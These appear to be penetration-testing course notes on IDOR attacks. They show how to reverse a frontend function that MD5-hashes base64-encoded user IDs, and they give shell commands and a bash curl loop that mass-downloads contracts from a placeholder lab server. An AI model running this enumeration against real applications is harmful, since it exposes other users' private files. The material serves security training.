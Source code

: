 ## Bypassing Encoded References
* In some cases, web applications make hashes or encode their object references, making enumeration more difficult, but it may still be possible

```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

* Using a `download.php` script to download files is a common practice to avoid directly linking to files
* Here it appears to be hashing it in an `md5` format
* We can attempt to hash various values, like `uid`, `username`, `filename`, and many others, and see if any of their `md5` hashes match the above value
* We may also utilize `Burp Comparer` and fuzz various values and then compare each to our hash to see if we find any matches

## Function Disclosure
* Most modern web applications are developed using JavaScript frameworks
	* `Angular`, `React` or `Vue.js`
* Many make the mistake of performing sensitive functions on the frontend
	* Exposes them to attackers
* If we take a look at the link in the source code, we see that it is calling a JavaScript function with `javascript:downloadContract('1')
* Looking at the `downloadContract()` function in the source code, we see the following

```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

* We can test this by `base64` encoding our `uid=1`, and then hashing it with `md5`, as follows

```sh
$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```

**Tip:** We are using the `-n` flag with `echo`, and the `-w 0` flag with `base64`, to avoid adding newlines, in order to be able to calculate the `md5` hash of the same value, without hashing newlines, as that would change the final `md5` hash

## Mass Enumeration
* This is the easiest and most efficient method of enumerating data and files through IDOR vulnerabilities
* In more advanced cases, we may utilize tools like `Burp Intruder` or `ZAP Fuzzer`

```sh
$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

